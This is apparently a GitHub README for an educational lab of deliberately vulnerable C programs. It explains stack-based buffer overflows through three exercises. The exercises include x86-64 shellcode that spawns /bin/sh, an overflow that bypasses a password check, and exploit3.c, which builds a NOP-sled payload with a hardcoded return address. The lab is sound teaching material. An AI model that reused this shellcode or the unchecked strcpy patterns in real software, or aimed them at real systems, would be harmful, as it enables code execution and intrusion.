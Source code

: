 # overflow_with_joy

This is a collection of programs written in c that are vulnerable for buffer overflows and exploits.

## Background ##

The memory of a program is seperated in different parts, including text for the code, data, bss, heap and stack. The data segment is for initialized static and global variables, the bss section is for uninitilized static and global variables. The heap is for dynamic memory accessed with new() or malloc(), and on the stack contains local variables and some other information. When a function is executed, it uses the stack to store its variables, parameters for other functions to call, some information about the control flow and so on. For example, when a program enters a function, it has to save the address of the next instruction to execute when it is done with the function and wants to return, and this return address is saved on the stack.

![Stack](https://github.com/LauraWartschinski/overflow_with_joy/blob/master/img/stack.png)

Some vulnerabilities in code can make it possible to manipulate that stack, e.g. to overwrite the return address, which will cause the programm to jump to a different place in the memory and possibly execute instructions there. Many times, this happens because a buffer - a designated block of memory that stores some values of the same type - is not managed correctly, allowing for values to be written that exceed the capacity of the buffer and overwrite whatever comes next on the stack, possible until the return address (see image).

The program also uses registers. The instruction pointer (eip in 32 bit, rip in 64 bit architectures) points to the next instruction the program will execute. The RSP (stack pointer) points to the top of the stack, where variables would be pushed onto and popped from the stack. The rbp (base pointer) points to the beginning of the stack at the very bottom for this specific function. Underneath the rbp lies the old rbp of the function that was called this function, and the return address to jump back.


For a comprehensive introduction into the topic of buffer overflows and executing shell code on the stack, see [smashing the stack for fun and profit](http://www-inst.eecs.berkeley.edu/~cs161/fa08/papers/stack_smashing.pdf).


## Setup ##

### compiling everything ###
To compile the files with the flags, execute
```./compile-all.sh```
All code is compiled with some flags that make it easier to execute exploits:  `-fno-stack-protector` to not include stack canaries etc., `-z execstack` to make the stack executable, and `-O0` to remove optimizations. All exploits are made to execute on a 64 bit architecture and are tested in Ubuntu 18.04. The full command is for example 
`gcc hackme1.c -o hackme1 -O0 -fno-stack-protector -z execstack -g`. This script also disables ASLR (stack randomization), which helps because the memory addresses will stay the same between two executions of the program. 

### creating shellcode bytes ###

![makeshellcode script](https://github.com/LauraWartschinski/overflow_with_joy/blob/master/img/makeshellcode.png)

There is also a script `makeshellcode.sh`, which will automatically generate the bytes of assembly code for the instructions specified in `shellcode-creator.c`. It does so by starting the gdb and using its disass function to look at the bytes, to speed up the process of manual inspection. However, it will stop at the first `ret` instruction it encounters. As long as you don't use this, it's fine. Otherwise you might just need to figure out the instructions yourself. 


## Hackme 1 ##

To warm up, let's have a look at a program that was made to be exploited. This is the sourcecode for `hackme1.c`.

```
int main(void)
{
    char shellcode[] = "[shellcode here]";
 
    (*(void (*)()) shellcode)();
     
    return 0;
}
```

This very simple program takes some shellcode and executes it. This is possible because the variable shellcode is casted to a function pointer of the type `void (*)()`, a function pointer for an unspecified number of parameters. Therefore, the shellcode is cast into a function and then calls it, essentially running the shellcode.

In `exploit1.c`, shellcode is inserted that will cause the program to set the registers correctly and then execute a syscall, which will start a new shell. The following assembly commands achieve this while also avoiding any null bytes. There are, however, many other ways to achieve the same goal. 

```
"jmp j2;" //short jump to avoid null bytes in the shellcode
"j1: jmp start;" //jump to the rest of the shellcode
"j2: call j1;" //put the address of the string /bin/sh on the stack
".ascii \"/bin/shX\";"
"start: pop %rdi;" //take the address of the string /bin/sh from the stack
"xor %rax, %rax;" //set RAX to zero
"movb %al, 7(%rdi);" //set a nullbyte after the /bin/sh in the written file
"mov $0x3b, %al;" //put the syscall number in rax, in this case execve
"xor %rsi,%rsi;" //RSI must be set to zero
"xor %rdx,%rdx;" //RDX must be set to zero    
"syscall;" //start the 
```


## Hackme 2 ##

In the next example, we are looking at a C program that was not made to be exploited, but contains a buffer overflow vulnerability. The program takes an input as argument and checks if that input is correct, displaying either "password correct" or "wrong password". Of course, it might execute some other functionality, but this is just a minimal example. The goal here is to get the program to execute the code for the correct password, without actually entering the correct password. If it crashes later, that's okay, since the goal was reached anyway. 

The programm can simply be executed with `./hackme2 mypassword`. This is the sourcecode: 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_password(char *password){
  int correct = 0;
  char password_buffer[16];
  
  strcpy(password_buffer, password);
  
  if (strcmp(password_buffer, "actualpw") == 0) {
    correct = 1;
  }
  
  return correct;
  
  
}


int main (int argc, char *argv[]) {
  if (argc < 2) {
		puts("Please enter your password as a command line parameter.");
  } else {
    if (check_password(argv[1])) {
      printf("Password correct.\n");
    } else {
      printf("Wrong password.\n");
    }
  }

  return 0;
  
}
``` 

In the check_password function, a buffer of length 16 is created to store the password. There is also a variable `int correct` that will contain 0 if the password is wrong, or 1 if the password was evaluated to be correct. This local variable is placed on the stack (here at location `rbp-8`, directly above the base pointer of the stack). At the end of the function, it is loaded into the register eax, which can be seen in the disassembled code of check_password at location +68. The main function then checks if eax is zero or not (with the `test %eax, %eax'` at position +54) and jumps to the different outputs depending on the result. When "actualpw" is passed to the program as paramter, the variable `correct` contains 00000001 and is there not zero, causing the program to display "oassword correct".

When the buffer in check_password gets filled with bytes, it grows in the direction of the variable `correct`. With a length of 16 bytes, it overwrites the variable to contain e.g. `0x4141414141414141`, which is also evaluated to be not zero, so the main function jumps into the "password correct" branch once more, even though the correct password was never entered. 

![exploit2](https://github.com/LauraWartschinski/overflow_with_joy/blob/master/img/exploit2.png)

The programm `exploit2` just produces the correct number of bytes as an output. Execute both with `./hackme2 $(./exploit2)`. 

## Hackme 3 ##

For this example, the goal is to execute some arbitrary commands that were not programmed into `hackme3.c`. This is the original sourcecode:

``` 
#include<stdio.h>
#include<string.h>
int main(int argc, char *argv[])
{
  char buf[256];
  if (argc < 2)
    puts("Please enter your name as a command line parameter.");
  else
  {
    strcpy(buf,argv[1]);
    printf("Input was: %s\n",buf);
    return 0;
  }
}
``` 

This program accepts a a parameter and then writes it out again. However, the length of the parameter is not checked, and if it exceeds the 256 byte buffer, an oveflow will occur. This makes it possible to overwrite the return address, causing the programm to jump elsewhere.

More specifically, the programmed can be made to jump up on the stack into the area of the buffer. If the buffer was filled with data that can also be interpreted as instructions, they can then be executed. By putting in the instructions to execute a syscall that starts a shell, the programm will do exactly that. The code in `exploit3.c` produces a string of bytes that serves this function. Execute both with `./hackme3 $(./exploit3)`. 



![exploit3](https://github.com/LauraWartschinski/overflow_with_joy/blob/master/img/exploit3.png)

```
#include <stdio.h>
#include <string.h>
  
char shellcode[] = "\xeb\x02\xeb\x0d\xe8\xf9\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x5f\x48\x31\xc0\x88\x47\x07\xb0\x3b\x48\x31\xf6\x48\x31\xd2\x0f\x05\xaa\xaa\xaa\xaa\xaa\xaa\x08\xdd\xff\xff\xff\x7f";

int main()
{
  int i;
  for (i = 0; i < (256 - strlen(shellcode) + 8 + 6); i++)
  {
    printf("\x90");
  }
  printf("%s",shellcode);
  return 0;
}
```